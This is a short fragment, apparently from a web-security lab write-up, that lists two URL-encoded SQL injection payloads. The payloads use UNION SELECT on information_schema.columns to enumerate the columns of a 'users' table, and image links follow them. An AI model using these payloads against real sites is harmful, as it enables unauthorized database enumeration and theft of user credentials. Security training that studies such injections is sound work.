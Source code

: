 * '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
    * '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kxxzwr'--
![alt text](image-6.png)    
![alt text](image-5.png)
